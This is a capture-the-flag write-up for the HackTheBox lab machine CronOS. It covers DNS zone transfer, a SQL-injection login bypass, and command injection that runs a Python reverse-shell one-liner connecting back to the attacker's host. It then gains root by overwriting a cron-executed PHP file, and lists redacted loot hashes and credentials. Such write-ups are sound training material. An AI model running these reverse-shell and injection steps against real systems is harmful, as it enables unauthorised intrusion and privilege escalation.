# [[HackTheBox] CronOS](https://www.hackthebox.eu/home/machines/profile/11)

**Date**: 13/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_sqli](https://github.com/7h3rAm/writeups/search?q=exploit_sqli&unscoped_q=exploit_sqli), [privesc_cron](https://github.com/7h3rAm/writeups/search?q=privesc_cron&unscoped_q=privesc_cron)  
**InfoCard**:  


## Overview
This is a writeup for HackTheBox VM [Cronos](https://www.hackthebox.eu/home/machines/profile/11). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


### Killchain



### TTPs
1\. `80/tcp/http/Apache httpd 2.4.18 ((Ubuntu))`: [exploit_sqli](https://github.com/7h3rAm/writeups#exploit_sqli), [privesc_cron](https://github.com/7h3rAm/writeups#privesc_cron)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Nov 13 14:08:01 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.cronos/results/10.10.10.13/scans/xml/_quick_tcp_nmap.xml 10.10.10.13
Nmap scan report for 10.10.10.13
Host is up, received user-set (0.084s latency).
Scanned at 2019-11-13 14:08:02 PST for 23s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCkOUbDfxsLPWvII72vC7hU4sfLkKVEqyHRpvPWV2+5s2S4kH0rS25C/R+pyGIKHF9LGWTqTChmTbcRJLZE4cJCCOEoIyoeXUZWMYJCqV8crflHiVG7Zx3wdUJ4yb54G6NlS4CQFwChHEH9xHlqsJhkpkYEnmKc+CvMzCbn6CZn9KayOuHPy5NEqTRIHObjIEhbrz2ho8+bKP43fJpWFEx0bAzFFGzU0fMEt8Mj5j71JEpSws4GEgMycq4lQMuw8g6Acf4AqvGC5zqpf2VRID0BDi3gdD1vvX2d67QzHJTPA5wgCk/KzoIAovEwGqjIvWnTzXLL8TilZI6/PV8wPHzn
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKWsTNMJT9n5sJr5U1iP8dcbkBrDMs4yp7RRAvuu10E6FmORRY/qrokZVNagS1SA9mC6eaxkgW6NBgBEggm3kfQ=
|   256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHBIQsAL/XR/HGmUzGZgRJe/1lQvrFWnODXvxQ1Dc+Zx
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 14:08:25 2019 -- 1 IP address (1 host up) scanned in 24.49 seconds

```

2\. We start with DNS enumeration and with a reverse lookup and find that the subdomain `ns1.cronos.htb` is associated with the target IP. Since DNS is responding on TCP, we also perform a DNS zone transfer and find additional subdomains associated with the target IP:  
``` {.python .numberLines}
dig +noall +answer -x 10.10.10.13 @10.10.10.13
host -t axfr cronos.htb 10.10.10.13

```

  

  

3\. Upon visiting the `admin.cronos.htb` subdomain, we are presented with a login page, that is vulnerable to SQL injection:  

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp  |  ssh     |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
53/tcp  |  domain  |  ISC BIND 9.10.3-P4 (Ubuntu Linux)
80/tcp  |  http    |  Apache httpd 2.4.18 ((Ubuntu))
```

\newpage
## Phase #2: Exploitation
1\. We use SQLi to successfully bypass login and are presented with a page that allows running the `ping` and `traceroute` commands. The input field on this page is vulnerable to a command injection:  

  

2\. We use this to execute a Python reverse shell and get interactive access on the target system:  
``` {.python .numberLines}
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

  

  

3\. We obtain the first flag since the file is readable by current user `www-data`:  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www-data@cronos> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cronos>  
www-data@cronos> uname
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@cronos>  
www-data@cronos> ifconfig
ens160  Link encap:Ethernet  HWaddr 00:50:56:b9:26:e7
        inet addr:10.10.10.13  Bcast:10.10.10.255  Mask:255.255.255.0
        inet6 addr: dead:beef::250:56ff:feb9:26e7/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:26e7/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:1008552 errors:0 dropped:0 overruns:0 frame:0
        TX packets:687541 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000
        RX bytes:157239763 (157.2 MB)  TX bytes:224790718 (224.7 MB)
www-data@cronos>  
www-data@cronos> users
root
noulis
```

\newpage
## Phase #3: Privilege Escalation
1\. While enumerating, we find hardcoded MySQL credentials for user `admin` within the `/var/www/admin/config.php` file. We use these credentials to connect to MySQL service and obtain password hash for user `admin`. We were unable to crack this hash:  

  

  

2\. Upon further enumeration, we find that there's a cronjob that run a PHP file every minute with `root` privileges. Luckily for us, the PHP file it runs is owned by current user `www-data`:  

  

  

3\. We can replace this file with a PHP reverse shell and catch the incoming shell to obtain elevated privileges:  

  

  

4\. We then view the contents of the `root.txt` file to complete the challenge:  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$L2m6DJwN$p/xas4tCNp19sda4q2ZzGC82Ix7GiEb7xvCbzWCsFHs/eR82G4/YOnni/.L69tpCkOGo5lm0AU7zh9lP5........................
www-data:$6$SYixzIan$P3cvyztSwA1lmILF3kpKcqZpYSDONYwMwplB62RWu1RklKqIGCX1zleXuVwzxjLcpU6bhiW9N03AWkzVU........................
noulis:$6$ApsLg5.I$Zd9blHPGRHAQOab94HKuQFtJ8m7ob8MFnX6WIIr0Aah6pW/aZ.yA3T1iU13lCSixrh6NG1.GHPl.QbjHS........................
```
### Credentials
``` {.python .numberLines}
mysql: admin/kEjdbRigfBHURE.....
```
### Flags
``` {.python .numberLines}
/home/noulis/user.txt: 51d236438b333970dbba7...........
/root/root.txt: 1703b8a3c9a8dde879942c..........
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/11>  
[+] <https://www.youtube.com/watch?v=CYeVUmOar3I>  
[+] <https://medium.com/cronos-htb-walkthough/cronos-htb-walkthrough-9ef91750726>  
